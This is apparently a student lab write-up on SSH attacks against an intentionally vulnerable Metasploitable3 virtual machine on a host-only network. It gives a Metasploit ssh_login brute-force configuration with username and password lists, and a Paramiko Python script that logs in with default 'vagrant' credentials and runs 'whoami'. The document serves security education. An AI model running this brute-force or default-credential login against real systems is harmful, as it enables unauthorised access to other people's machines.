




# SSH Exploitation on Metasploitable3 Using Metasploit and Python

## Setup Overview

In phase one of the project, we set up the two virtual machines and performed an SSH attack using:

- Metasploit Framework (Task 1.1)
- A custom Python script using Paramiko (Task 1.2)

---

## Virtual Machine Setup

### 1. Kali Linux (Attacker Machine)

- OS: Kali Linux (running in VirtualBox)
- Tools used: `nmap`, `metasploit`, `paramiko`

### 2. Metasploitable3 (Target Machine)

- OS: Ubuntu 14.04

Configured networking using a host-only adapter for both virtual machines, and ensured that ping works from both virtual machines.

---

## Task 1.1: SSH Exploitation Using Metasploit

1. Launch Metasploit

```bash
msfconsole
```

2. Use SSH Brute-Force Module

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.56.101
set USER_FILE /path/to/usernames.txt
set PASS_FILE /path/to/passwords.txt
set THREADS 4
set STOP_ON_SUCCESS true
set VERBOSE true
run
```

replace /path/to with the actual path to your usernames and passwords lists.

---

## Task 1.2: SSH Exploitation Using Python

1. Install Paramiko

```bash
sudo apt install python3-paramiko
```

2. Use the python script

```python
import paramiko

def ssh_login(ip, username, password):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        print(f"[+] Attempting SSH login to {ip} with {username}:{password}")
        client.connect(ip, username=username, password=password, timeout=5)

        stdin, stdout, stderr = client.exec_command('whoami')
        output = stdout.read().decode().strip()
        print(f"[+] Login successful! Command output: {output}")
        client.close()

    except paramiko.AuthenticationException:
        print("[-] Authentication failed.")
    except Exception as e:
        print(f"[!] SSH connection error: {e}")

if __name__ == "__main__":
    ssh_login("metasploitable3_ip_address", "vagrant", "vagrant")
```

3. Run the python script

```bash
python3 script_file.py
```

## Screenshots







